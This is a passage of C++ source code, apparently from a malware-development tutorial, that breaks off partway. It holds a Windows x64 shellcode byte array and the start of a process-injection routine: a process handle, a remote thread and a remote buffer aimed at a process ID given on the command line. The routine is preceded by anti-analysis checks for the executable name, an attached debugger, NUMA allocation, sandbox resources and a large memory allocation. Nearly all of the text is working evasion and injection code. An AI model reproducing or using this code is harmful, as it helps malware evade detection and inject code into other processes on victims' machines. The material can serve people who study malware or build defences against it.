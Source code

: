 ```cpp
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // what is my name???
  if (strstr(argv[0], "hack2.exe") == NULL) {
    printf("What's my name? WTF?? :(\n");
    return -2;
  }

  // "ask" the OS if any debugger is present
  if (IsDebuggerPresent()) {
    printf("attached debugger detected :(\n");
    return -2;
  }

  // check NUMA
  if (checkNUMA()) {
    printf("NUMA memory allocate failed :( \n");
    return -2;
  }

  // check resources
  if (checkResources() == false) {
    printf("possibly launched in sandbox :(\n");
    return -2;
  }

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
    memset(mem, 00, 100000000);
    free(mem);

    // parse process ID
```